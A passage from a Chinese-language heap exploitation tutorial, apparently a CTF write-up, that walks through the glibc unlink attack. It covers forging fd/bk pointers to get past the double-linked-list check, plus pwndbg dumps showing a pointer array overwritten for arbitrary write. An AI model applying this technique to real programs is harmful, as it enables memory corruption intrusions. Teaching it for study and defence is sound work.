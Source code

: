 &emsp;&emsp;<font size=2>因为我们在`free(p2);`之前已经通过某种手段抹掉了其prev_inuse位，因此控制流会进入这一段if执行，得到其pre_size，并把其加到size上，然后设置p减去我们伪造的pre_size而到了一个假的，不是真正的堆块上，然后进行一个unlink宏：</font></br>

```C
/* Take a chunk off a bin list */
#define unlink(AV, P, BK, FD) {                                            \
    FD = P->fd;                                                               \
    BK = P->bk;                                                               \
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                     \
      malloc_printerr (check_action, "corrupted double-linked list", P, AV);  \
    else {                                                                    \
        FD->bk = BK;                                                          \
        BK->fd = FD;   
```

&emsp;&emsp;<font size=2>现在宏内部，P就是那个假的堆块（现在称其为我们伪造的堆块），唯一需要注意的就是对这个链表的一个检查：`FD->bk!=P || BK->fd!=P`，FD就是`P+0x10`的数据，我们伪造为了`&chunk_link[0]-0x18`，BK就是`P+0x18`里的数据，我们伪造为了`&chunk_link[0]-0x10`，而对其bk或者fd的访问同样也是一个加0x18或者0x10的偏移，因此想象一下这个检查：</font></br>

```C
*((&chunk_link[0]-0x18)+0x18)==P
*((&chunk_link[0]-0x10)+0x10)==P
```

&emsp;&emsp;<font size=2>效果岂不是相当于`chunk_link[0]==P`？而chunk_link[0]正是我们之前记录的堆块P（思考一下，为什么只能把堆块伪造在堆块头+0x10的位置，再往下就不行？），检查刚好被绕过了，然后再看一看我们之前分析得到的链表脱钩操作：</font></br>

```C
P->fd->bk=P->bk;
P->bk->fd=P->fd;
```

&emsp;&emsp;<font size=2>这个操作的效果如下：</font></br>

```C
chunk_link[0]=p-0x10;
chunk_link[0]=p-0x18;
```

&emsp;&emsp;<font size=2>free的后续代码不重要了，也就是说free函数结束后，chunk_link的内容变成了这样：</font></br>

```
0x601080 <chunk_link>:	0x0000000000601068	0x0000000000602120
0x601090 <chunk_link+16>:	0x0000000000000000	0x0000000000000000
```

&emsp;&emsp;<font size=2>这个时候，程序还以为`chunk_link[0]`记录的仍然是第一个堆块的地址，然后其指向的地址却已修改为了chunk_link地址的前0x18个字节，因此在你使用"编辑以前的笔记"功能的时候，效果类似如下：</font></br>

```C
read(0,chunk_link[0],0x20);
```

&emsp;&emsp;<font size=2>往里写入一系列数据的时候会覆盖到我们的chunk_link，相当于chunk_link里有多少个堆块我们就可以任意写多少次。比如写0x20个'a'：</font></br>

```
pwndbg> x/20xg 0x601000
0x601000:	0x0000000000600e28	0x00007ffff7ffe168
0x601010:	0x00007ffff7dee870	0x00007ffff7a914f0
0x601020:	0x00007ffff7b04250	0x00007ffff7a2d740
0x601030:	0x00007ffff7a91130	0x0000000000000000
0x601040:	0x0000000000000000	0x0000000000000000
0x601050:	0x0000000000000000	0x0000000000000000
0x601060 <completed.7594>:	0x0000000000000000	0x6161616161616161
0x601070:	0x6161616161616161	0x6161616161616161
0x601080 <chunk_link>:	0x6161616161616161	0x0000000000602120
0x601090 <chunk_link+16>:	0x0000000000000000	0x0000000000000000
pwndbg> 
```
